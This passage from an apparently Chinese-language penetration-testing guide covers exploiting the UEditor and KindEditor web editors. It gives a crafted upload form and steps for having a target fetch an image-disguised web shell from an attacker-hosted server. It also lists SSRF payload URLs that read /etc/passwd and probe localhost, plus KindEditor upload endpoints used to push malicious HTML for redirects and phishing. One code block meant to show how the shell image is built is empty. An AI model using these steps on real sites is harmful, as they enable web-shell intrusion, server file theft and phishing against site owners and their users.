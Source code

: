 利用方式  
  
1）本地构造一个html，用来上传文件  
```
<form action="http://xxxxxxxxx/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST"> <p>shell addr: <input type="text" name="source[]" /></p > <input type="submit" value="Submit" /></form>
```  
  
2）准备一个图片马，远程shell地址需要制定扩展名为xxxx.gif?.aspx  
  
制作图片马的方式如下  
```
```  
  
![1734426369_67613f0149b4cf9a99af3.png!small?1734426369732](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBxgkSlMo2mNeMX7DIt5NRh1TY5eNDvSyaQic3Iiad6pJTRTJoIpKZibNp2wcdauHVriafUCrGKUSNY1Zg/640?wx_fmt=jpeg&from=appmsg "")  
  
将该图片马放到自己的服务器上，上传的时候再路径后面加上?.aspx  
  
![1734426374_67613f0627e316a8a1fdb.png!small?1734426374596](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBxgkSlMo2mNeMX7DIt5NRh1ia79CibghBeLXRndK8u1vNsaia9wSBFPo7cUsFicq2wlbz19Ql5eERBJRw/640?wx_fmt=jpeg&from=appmsg "")  
### SSRF漏洞  
  
一些版本的UEditor编辑器还存在SSRF漏洞  
```
http://xxx.com/ueditor/php/controller.php?action=catchimage&source[]=../../../../../../../etc/passwd
/ueditor/jsp/controller.jsp?action=catchimage&source[]=http://127.0.0.1:{{rand_text_numeric(6)}}/?1.png
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
```  
## KindEditor  
  
KindEditor 是一套开源的国产在线HTML编辑器，主要用于让用户在网站上获得所见即所得编辑效果，开发人员可以用 KindEditor 把传统的多行文本输入框(textarea)替换为可视化的富文本输入框。 KindEditor 使用 JavaScript 编写，可以无缝地与 Java、.NET、PHP、ASP 等程序集成，比较适合在 CMS、商城、论坛、博客、Wiki、电子邮件等互联网应用上使用。  
### 关键路径  
```
demo页面
/kindEditor/jsp/demo.jsp
/kindEditor/php/demo.php

上传地址
kindeditor/asp/upload_json.asp?dir=file
kindeditor/asp.net/upload_json.ashx?dir=file
kindeditor/jsp/upload_json.jsp?dir=file
kindeditor/php/upload_json.php?dir=file

```  
###   
### 上传任意html文件  
  
漏洞存在于小于等于kindeditor4.1.5 编辑器里，你能上传.txt和 .html文件，支持php/asp/jsp/asp.net。 /php/upload_json.php文件不会清理用户输入或者检查用户是否将任意文件上传到系统。通过构造一个恶意的 html文件来实现跳转，钓鱼等，恶意攻击者可实现。  
  